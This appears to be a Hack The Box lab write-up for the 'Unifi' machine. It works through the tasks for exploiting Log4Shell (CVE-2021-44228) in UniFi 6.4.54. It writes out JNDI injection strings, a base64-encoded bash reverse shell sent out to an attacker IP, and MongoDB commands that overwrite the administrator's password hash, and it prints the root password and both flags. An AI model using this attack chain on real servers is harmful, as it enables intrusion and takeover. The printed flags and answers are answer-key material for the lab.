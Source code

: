 # Unified
- Difficulty: Very easy 

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.
![ip-address](img/ip-address.png)

## Task Breakdown
**1. Which are the first four open ports?**
- Use `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]` to scan for open ports.
![nmap](img/nmap.png)
> **Answer:** 22,6789,8080,8443

**2. What is the title of the software that is running running on port 8443?**
![uni](img/unifi.png)
> **Answer:** UniFi Network

**3. What is the version of the software that is running?**
- Access to this via `https://[IP-Address]:8443` will automatedly redirect us to `/manage/account/login?redirect=%2Fmanage`, reveal a login page. The software version is also displayed here.  
![login](img/login.png)
> **Answer:** 6.4.54

**4. What is the CVE for the identified vulnerability?**
- Searching on the Internet about this program's version CVE will show us [this](https://github.com/puzzlepeaches/Log4jUnifi.git). This is about Log4j vulnerabilities in Unifi software, get a reverse shell, and leverage our access to add our own administrative user to the Unifi MongoDB instance.
> **Answer:** CVE-2021-44228

**5. What protocol does JNDI leverage in the injection?**
- Information on this can be found in security write-ups, such as [this one](https://www.microsoft.com/en-us/security/blog/2021/12/11/guidance-for-preventing-detecting-and-hunting-for-cve-2021-44228-log4j-2-exploitation/?msockid=1369038a9eec646f38d717dc9ffe65a2) and we have **the protocol, such as “ldap”, “ldaps”, “rmi”, “dns”, “iiop”, or “http”, precedes the attacker domain**
> **Answer:** ldap

**6. What tool do we use to intercept the traffic, indicating the attack was successful?**
> **Answer:** tcpdump

**7. What port do we need to inspect intercepted traffic for?**
- The default port for LDAP is 389, as confirmed [here](https://serverfault.com/questions/682594/which-ports-are-required-in-order-to-authenticate-against-a-ldap-server-in-anoth)
> **Answer:** 389

**8. What port is the MongoDB service running on?**
- Use **Burp Suite** to intercept HTTP traffic. Send the **login** request to **Repeater**
![burp](img/burp.png)
- Change `remember` value to `"${jndi:ldap://[our-IP-Address]/whatever}"`. 
![repeat](img/repeatter.png)
- Before clicking **Send**, run `sudo tcpdump -i tun0 port 389` to capture all packets in port 389
![tcp](img/tcpdump.png)
- Or you can also use **WireShark** for the same purpose
![wire](img/wire.png)
- We see that there are some traffic between our machine and target machine. We can assume this program is vulnerable to **Log4J**.
- Here I use [this tool](https://github.com/veracode-research/rogue-jndi) to exploit this vulnerability. Install some dependencies and run `mvn package` to build it.
![mvn](img/mvn.png)
- Create a reverse shell and convert to Base64 with `echo 'bash -c bash -i >& /dev/tcp/[out-IP-Address]/4444 0>&1' | base64`
- Now run the program with the following payload: `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,[base64-string]}|{base64,-d}|{bash,-i}" --hostname "[our-IP-Address]"`. It will show some LDAP mappings
![tom](img/tomcat.png)
- Open a new terminal and run `nc -lvnp 4444` to start listening on a port
- Back to the **Burp Suite** Repeater, change value of **remember** to `"${jndi:ldap://[our-IP-Address]:1389/o=tomcat}"`. 
![burp](img/burp-tomcat.png)
- Clicking **Send** and it will start sending LDAP ref resource and Netcat will listen on the port. Now you can excecute commands as `unifi` user.
![nc](img/nc.png)
- You can also create a stable shell with `script /dev/null -c bash`
- Now run `ps aux | grep mongo` to search for processes related to MongoDB
![mong](img/mongo.png)
> **Answer:** 27117

**9. What is the default database name for UniFi applications?**
- Connect to MongoDB with `mongo --port 27117`, run `show databases` to list all databases  
![db](img/dtb.png)
> **Answer:** ace

**10. What is the function we use to enumerate users within the database in MongoDB?**
> **Answer:** db.admin.find()
- Run `mongo --port 27117 ace  --eval "db.admin.find().forEach(printjson);"` to retrieve all documents from the `admin` collection, printing each document in JSON format to the terminal. We can see that user `administrator` will have password (`x_shadow`) saved as SHA-512 
![find](img/find.png)

**11. What is the function we use to update users within the database in MongoDB?**
> **Answer:** db.admin.update()
- So now create a SHA-512 password with `mkpasswd -m SHA-512 [any-password-you-want]`
![make](img/make.png)
- Update the `administrator`'s `x_shadow` to the password we have created by `mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")}, {$set:{"x_shadow":"[new-SHA512-string]"}})'`. 
![update](img/update.png)

**12. What is the password for the root user?**
- Now we can login with as `administrator` with the new password. Navitigate to **Settings**>**Device Authentication** to find the root password.  
> **Answer:** NotACrackablePassword4U2022

## Submit user flag
- Back to the unifi machine, the user flag should be located in `home/michael`
![flag](img/flag.png)
- **User flag:** 6ced1a6a89e666c0620cdb10262ba127

## Submit root flag
- Use SSH to login as root with the found password  and the flag is here  
- The root flag is here!
![flag](img/ssh.png)  
- **Root flag:** e50bc93c75b634e4b272d2f771c33681
